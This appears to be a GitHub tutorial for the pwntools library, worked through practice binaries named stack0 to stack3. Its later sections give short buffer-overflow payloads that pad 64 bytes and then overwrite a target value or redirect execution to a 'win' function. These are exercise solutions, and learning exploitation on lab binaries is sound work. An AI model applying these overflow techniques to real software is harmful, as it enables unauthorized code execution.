# PWNTools with Examples


<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>



- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```
</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>



- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>



- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output


	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>



- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output


</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>



- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>



- Completing the exercise with the found value


- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>